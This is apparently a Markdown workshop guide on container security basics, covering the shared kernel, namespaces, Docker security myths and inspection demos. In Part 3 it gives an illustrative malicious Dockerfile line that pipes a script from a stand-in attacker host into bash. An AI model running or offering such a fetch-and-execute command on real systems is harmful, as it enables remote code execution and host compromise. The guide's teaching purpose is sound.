


# Workshop 1: Container Security Basics

## 🎯 Learning Objectives

By the end of this workshop, you will:
- Understand the fundamental difference between containers and VMs from a security perspective
- Recognize why containers share the host kernel and what that means for security
- Identify common security misconceptions about Docker
- Be able to inspect container isolation boundaries

---
Video recording of the workshop: [YouTube Link](https://www.youtube.com/watch?v=Refr3uDVJpc)
---

## 📚 Part 1: Containers vs VMs (Security View)

### Different Isolation Models

Before diving into the architectures, let's understand two key concepts:

**What is a Kernel?**
The kernel is the core of an operating system that manages:
- Hardware resources (CPU, memory, disk)
- Process scheduling and management
- System calls (how programs communicate with hardware)
- Security and access control

Think of it as the "brain" that controls everything in your system.

**What is a Hypervisor?**
A hypervisor (also called Virtual Machine Monitor) is software that:
- Creates and runs virtual machines
- Manages hardware resources between VMs
- Provides strong isolation between VMs
- Examples: VMware ESXi, KVM, Hyper-V, VirtualBox

Now let's see how VMs and containers use these differently:

---

**Virtual Machines Architecture:**



**Container Architecture:**

```mermaid
graph LR
    subgraph Host["Host System"]
        HOSK["Host OS + ⚠️ SHARED KERNEL"]
        DE["Docker Engine"]
        
        HOSK --> DE
        
        DE --> C1
        DE --> C2
        DE --> C3
    end
    
    subgraph C1["Container 1"]
        A1["App"]
        L1["Libs"]
        NS1["Namespaces"]
        A1 --> L1 --> NS1
    end
    
    subgraph C2["Container 2"]
        A2["App"]
        L2["Libs"]
        NS2["Namespaces"]
        A2 --> L2 --> NS2
    end
    
    subgraph C3["Container 3"]
        A3["App"]
        L3["Libs"]
        NS3["Namespaces"]
        A3 --> L3 --> NS3
    end
    
    style HOSK fill:#ff6b6b,color:#fff
    style DE fill:#2496ED,color:#fff
    style C1 fill:#95e1d3
    style C2 fill:#95e1d3
    style C3 fill:#95e1d3
```



> **💡 Note for Windows & Mac Users:**  
> If you're running Docker Desktop on Windows or macOS, Docker runs a **lightweight Linux VM** in the background. Your containers still **share a Linux kernel** - it's just the Linux kernel running inside that VM. The **security concepts we discuss apply the same way**: all your containers share that Linux kernel, even though your host OS is Windows or Mac.

> **🚨 Why This Matters in Production:**  
> In real-world production environments, containers are deployed on **Linux servers** (AWS EC2, Azure VMs, Google Cloud, on-premise servers). When you deploy your application to production, it runs directly on a Linux host kernel - no VM wrapper like Docker Desktop provides. This means:
> - A kernel vulnerability can compromise **all containers AND the host server**
> - One compromised container can potentially access **other applications** on the same server
> - Understanding shared kernel security is **critical** for production deployments
> 
> This workshop teaches you the security implications you'll face when your containers run in real production infrastructure, not just on your laptop.

### Understanding the Key Differences

**VMs virtualize hardware, containers virtualize the operating system.**

**Virtual Machines:**
- Each VM has its own complete kernel
- Strong isolation - kernel vulnerabilities in one VM don't affect others
- If you compromise VM1, you're isolated within that kernel
- Security boundary: Hypervisor

**Containers:**
- All containers share the same host kernel
- Weaker isolation - kernel vulnerabilities affect ALL containers
- If you escape to the kernel, you control everything
- Security boundary: Kernel namespaces & cgroups

> **Critical Point:** If you find a Linux kernel vulnerability in a container, you can potentially access the host and all other containers on the same host.

---

## 📚 Part 2: Shared Kernel Risk

### One Kernel to Rule Them All

**🏢 Virtual Machines = Separate Apartments**



> Break into one apartment? Still locked out of others

**🚪 Containers = Rooms in Same Apartment**

```mermaid
graph TB
    R1["Room 1<br/>Namespace isolation"]
    R2["Room 2<br/>Namespace isolation"]
    R3["Room 3<br/>Namespace isolation"]
    Door["🔑 Shared Front Door<br/>SINGLE KERNEL"]
    
    R1 --> Door
    R2 --> Door
    R3 --> Door
    
    style Door fill:#ff6b6b,color:#fff
    style R1 fill:#ffe66d
    style R2 fill:#ffe66d
    style R3 fill:#ffe66d
```



> Break through shared kernel? Access to everything

---

### Real-World Impact

**Kernel Vulnerability Attack Flow**

```mermaid
sequenceDiagram
    participant Attacker
    participant Container1
    participant SharedKernel
    participant Host
    participant Container2
    participant Container3
    
    Attacker->>Container1: 1. Compromise Container 1
    Container1->>SharedKernel: 2. Exploit Kernel Vulnerability<br/>(e.g., CVE-2022-0847 Dirty Pipe)
    SharedKernel->>Host: 3. Gain Root Access on Host
    SharedKernel->>Container2: 4. Access Container 2
    SharedKernel->>Container3: 5. Access Container 3
    
    Note over SharedKernel: ⚠️ Single kernel = Single point of failure
```



**Example: CVE-2022-0847 (Dirty Pipe)**

```bash
# If Linux kernel has CVE-2022-0847 (Dirty Pipe)
# An attacker in ANY container can:
# 1. Exploit the kernel vulnerability
# 2. Gain root on the HOST
# 3. Access ALL containers on that host
```

---

**Syscall Sharing**

```bash
# Every container syscall goes through the SAME kernel
# No separation at the kernel level
```

---

**Demonstration: Shared Kernel**

```bash
# Check kernel version on host
uname -r

# Check kernel version in container
docker run ubuntu uname -r
# Same kernel version! 🚨
```

> **"Container isolation is an illusion enforced by the kernel. If the kernel is compromised, all bets are off."**

---

## 📚 Part 3: Containers Are NOT a Security Boundary

### Official Position from Docker and Kubernetes

**Docker's Official Stance:**
> "Containers do not contain"

**Kubernetes Security Documentation:**
> "Container runtimes and the underlying kernel are not fully isolated"

### What Does This Mean?

Containers provide **process isolation**, not **security isolation**.

**✅ What Containers ARE Good For**

```mermaid
graph TB
    G1["📦 Packaging Applications"]
    G2["🔧 Dependency Isolation"]
    G3["⚡ Resource Limits<br/>(CPU, Memory)"]
    G4["🚀 Portability"]
    
    style G1 fill:#c3e6cb
    style G2 fill:#c3e6cb
    style G3 fill:#c3e6cb
    style G4 fill:#c3e6cb
```



**❌ What Containers ARE NOT Designed For**

```mermaid
graph TB
    B1["🚫 Running Untrusted Code"]
    B2["🚫 Multi-tenant Security"]
    B3["🚫 Kernel Exploit Protection"]
    B4["🚫 Replacing Security Boundaries"]
    
    style B1 fill:#f5c6cb
    style B2 fill:#f5c6cb
    style B3 fill:#f5c6cb
    style B4 fill:#f5c6cb
```



### Real-World Example:

**Scenario:** You run a containerized CI/CD system where users can submit code.

```bash
# User submits malicious Dockerfile:
FROM ubuntu
RUN curl attacker.com/exploit.sh | bash

# This code runs with kernel access
# Can potentially escape to host
```

**Better Approach:**
- Use VMs for untrusted workloads
- Add additional security layers (seccomp, AppArmor, SELinux)
- Use gVisor, Kata Containers, or Firecracker for stronger isolation

---

## 📚 Part 4: Common Security Myths

### Myth #1: "Docker is secure by default"

**Reality:**
```bash
# Default Docker behavior:
docker run -it ubuntu bash

# Your container runs as root by default 🚨
# Has access to many kernel capabilities
# Can make privileged syscalls
```

**Truth:** Docker prioritizes **convenience over security** by default.

---

### Myth #2: "Containers can't access the host"

**Reality:**
```bash
# Mount host filesystem
docker run -v /:/host ubuntu

# Now inside container:
ls /host
# You can see EVERYTHING on the host! 🚨
```

**Truth:** Containers can access whatever you give them permission to access.

---

### Myth #3: "Using Alpine Linux makes containers secure"

**Reality:**
- Alpine is smaller → smaller attack surface ✅
- But still shares the host kernel ❌
- Still vulnerable to container escape ❌
- Still runs as root by default ❌

**Truth:** Small images help, but don't solve fundamental container security issues.

---

### Myth #4: "Private registry = Secure images"

**Reality:**
```bash
# Private doesn't mean secure
# Could still contain:
- Vulnerable dependencies
- Malware
- Backdoors
- Secrets in layers
```

**Truth:** You need image scanning and verification, regardless of registry location.

---

### Myth #5: "Kubernetes adds security"

**Reality:**
- Kubernetes is an orchestrator, not a security tool
- Adds network policies ✅
- But inherits all container security issues ❌
- Misconfiguration can make things WORSE

**Truth:** Kubernetes gives you security **tools**, but you must configure them properly.

---

## 🎬 Live Demonstrations

### Demo 1: Proving Shared Kernel

```bash
# Check host kernel
echo "=== Host Kernel ==="
uname -r
cat /proc/version

# Run multiple containers
echo -e "\n=== Container 1 (Ubuntu) ==="
docker run --rm ubuntu uname -r

echo -e "\n=== Container 2 (Alpine) ==="
docker run --rm alpine uname -r

echo -e "\n=== Container 3 (CentOS) ==="
docker run --rm centos:7 uname -r

# All show the SAME kernel version!
```

**Key Observation:** Three different Linux distributions, but one kernel. This is why kernel security is critical.

---

### Demo 2: Inspect Container Processes

```bash
# Start a container in background
docker run -d --name demo-container alpine sleep 3600

# From HOST, view container processes
echo "=== Processes from Host View ==="
ps aux | grep sleep
# You can see the container process from the host!

# Check the process namespace
echo -e "\n=== Process Namespaces ==="
docker inspect demo-container | grep Pid
# Note the PID

# View from different perspectives
HOST_PID=$(docker inspect -f '{{.State.Pid}}' demo-container)
echo "Container PID on host: $HOST_PID"

# Inside container
echo -e "\n=== Inside Container ==="
docker exec demo-container ps aux
# Container thinks it's PID 1

# Host perspective
echo -e "\n=== Host Perspective ==="
ps -p $HOST_PID -o pid,ppid,command
```

**Key Observation:** Containers are just processes with namespaces. They're not magic, just clever Linux features.

---

### Demo 3: Inspect Namespaces

```bash
# Get container's PID
CONTAINER_PID=$(docker inspect -f '{{.State.Pid}}' demo-container)

# List all namespaces for this process
echo "=== Container Namespaces ==="
sudo ls -la /proc/$CONTAINER_PID/ns/

# Typical output:
# lrwxrwxrwx 1 root root 0 mnt -> 'mnt:[4026532574]'
# lrwxrwxrwx 1 root root 0 net -> 'net:[4026532577]'
# lrwxrwxrwx 1 root root 0 pid -> 'pid:[4026532575]'
# lrwxrwxrwx 1 root root 0 uts -> 'uts:[4026532573]'
# lrwxrwxrwx 1 root root 0 ipc -> 'ipc:[4026532576]'

# Compare with host namespaces
echo -e "\n=== Host Namespaces ==="
sudo ls -la /proc/1/ns/

# Notice different namespace IDs
```

**Understanding Namespaces:**

```mermaid
graph LR
    Container["🐳 Container"] --> NS1["🗂️ mnt"]
    Container --> NS2["🌐 net"]
    Container --> NS3["🔢 pid"]
    Container --> NS4["🖥️ uts"]
    Container --> NS5["💬 ipc"]
    Container --> NS6["👤 user"]
    
    style Container fill:#4ecdc4
    style NS1 fill:#95e1d3
    style NS2 fill:#95e1d3
    style NS3 fill:#95e1d3
    style NS4 fill:#95e1d3
    style NS5 fill:#95e1d3
    style NS6 fill:#95e1d3
```



**Six types of namespaces provide container isolation:**

| Namespace | Icon | What It Isolates |
|-----------|------|------------------|
| **mnt** | 🗂️ | Filesystem mounts |
| **net** | 🌐 | Network interfaces and IPs |
| **pid** | 🔢 | Process IDs |
| **uts** | 🖥️ | Hostname |
| **ipc** | 💬 | Inter-process communication |
| **user** | 👤 | User and group IDs |

---

### Demo 4: Shared Kernel Access

```bash
# Container can see kernel information
docker run --rm ubuntu cat /proc/cpuinfo
docker run --rm ubuntu cat /proc/meminfo

# Even kernel parameters
docker run --rm ubuntu sysctl -a | head -20

# These are HOST kernel details!
```

**Key Observation:** The container is reading from the same `/proc` filesystem as the host kernel. This is the shared kernel in action.

---

## 🔬 Hands-On Exercises

Ready to practice what you've learned? Complete the hands-on exercises to reinforce these concepts.

**[📖 View Hands-On Exercises →](../exercises/hands-on-lab.md)**

The exercises include:
- **Exercise 1:** Verify Shared Kernel
- **Exercise 2:** Inspect Process Tree
- **Exercise 3:** Explore Namespaces
- **Exercise 4:** What's Shared vs Isolated
- **Exercise 5:** Understanding Container Boundaries

**[🚀 Lab Setup Script →](../scripts/lab-setup.sh)**

Run the setup script to prepare your environment:
```bash
chmod +x ../scripts/lab-setup.sh
../scripts/lab-setup.sh
```

---

## 💭 Key Concepts to Consider

### When to use Containers vs VMs for Security?
- Use VMs for untrusted workloads
- Use containers for trusted, internal applications
- Consider hybrid: VMs running containers

---

### How could an attacker exploit the shared kernel?
- Kernel vulnerability exploitation
- Container escape vulnerabilities
- Resource exhaustion attacks affecting other containers

---

### Essential Security Measures
- Don't run containers as root
- Drop unnecessary capabilities
- Use minimal base images
- Implement resource limits
- Enable security profiles (seccomp, AppArmor)

---

## 📝 Key Takeaways Summary

```mermaid
mindmap
  root((Container<br/>Security<br/>Basics))
    Shared Kernel
      Fundamental limitation
      Single point of failure
      Kernel vuln affects all
    Containers ≠ VMs
      Process isolation
      Not security isolation
      Different threat models
    Not Secure by Default
      Runs as root
      Many capabilities
      Must harden actively
    Defense in Depth
      Layer controls
      Seccomp profiles
      AppArmor/SELinux
      Minimal images
    Security Boundaries
      Not designed for isolation
      Use VMs for untrusted
      Add security layers
```



1. **Containers share the host kernel** - This is the fundamental security limitation
2. **Containers ≠ VMs** - Different isolation models with different security properties
3. **Docker is not secure by default** - You must actively harden containers
4. **Containers are not a security boundary** - Don't rely on them for isolation alone
5. **Defense in depth** - Layer multiple security controls

---

## 🎯 What's Next?

In **Workshop 2**, we'll learn:
- How vulnerable images get created
- How to choose secure base images
- How to scan for vulnerabilities
- Building minimal, secure images

---

## 📚 Additional Resources

- [Docker Security Best Practices](https://docs.docker.com/engine/security/)
- [NIST Application Container Security Guide](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-190.pdf)
- [CIS Docker Benchmark](https://www.cisecurity.org/benchmark/docker)
- [Understanding Container Isolation](https://www.nginx.com/blog/what-are-namespaces-cgroups-how-do-they-work/)

---

## 🐛 Common Issues & Solutions

**Issue:** "Can't see container processes from host"
```bash
# Solution: Make sure you're checking the right PID
docker inspect -f '{{.State.Pid}}' <container_name>
```

**Issue:** "Permission denied when accessing /proc"
```bash
# Solution: Some operations need sudo
sudo ls -la /proc/<pid>/ns/
```

**Issue:** "Container doesn't show up in ps"
```bash
# Solution: Container might have exited
docker ps -a  # Show all containers
```
